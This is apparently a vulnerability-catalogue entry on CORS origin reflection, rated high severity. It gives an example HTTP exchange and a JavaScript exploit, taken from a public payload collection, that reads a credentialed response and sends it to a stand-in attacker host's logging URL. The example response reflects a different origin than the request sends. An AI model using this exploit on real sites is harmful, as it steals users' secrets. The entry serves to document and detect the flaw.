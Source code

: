 # Origin Reflection

## Description

Host allows any origin to make requests to it by blindly reflecting the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.

**Severity**: High

## Exploit 
Make requests from any domain you control.

### Example 
**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://hacker.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `hacker.com`
```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-origin-reflection)

